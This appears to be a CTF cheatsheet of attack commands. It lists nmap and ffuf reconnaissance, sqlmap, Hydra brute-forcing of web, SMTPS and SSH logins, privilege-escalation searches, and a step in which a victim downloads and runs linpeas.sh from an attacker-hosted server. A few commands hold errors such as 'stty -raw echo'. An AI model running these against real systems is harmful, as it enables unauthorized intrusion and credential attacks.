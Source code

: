 # CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
`dirsearch -u http://IP`
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something" -V -f`
>HTTP form brute-forcing

`hydra -l bob -P /usr/share/wordlists/rockyou.txt IP http-get "/protected" -V -f`
>HTTP Basic auth

`hydra -l user -P list.lst IP smtps -V -f`
>SMTP/S Brute-forcing

`hydra -l user -P list.lst ssh://IP -V -f`
>SSH Brute-forcing

## PRIVESC
### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty -raw echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`

### List all capabilities recursively
`getcap -r / 2>/dev/null`

### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine

